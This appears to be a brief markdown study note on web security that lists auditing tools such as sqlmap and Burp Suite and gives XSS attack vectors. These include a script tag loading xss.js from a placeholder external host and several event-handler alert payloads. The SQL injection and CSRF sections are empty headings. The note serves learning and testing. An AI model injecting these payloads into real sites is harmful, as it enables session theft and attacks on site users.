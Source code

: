 # Notes About Web Security
## Useful Auditing Tools:
`burpsuite` to capture and modify packets (purchase pro version if you like auto scannning :p)

`nmap ncat` to scan and test ports

`whois` and `theharvester` to collect OSINT data

`python` to create scripts

`sqlmap` to detect and exploit SQL Injection

and of course `F12(Developer tools)` in Browser(very useful!)
### #don't be a script kiddy!!


## Common Vulnerbilities

### XSS(Cross Site Scripting)
#### Description
Injects malicious code to a web page
#### Attacking Vectors
##### Basic
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
### SQL Injection
### CSRF (Cross-Site-Request-Forgery)
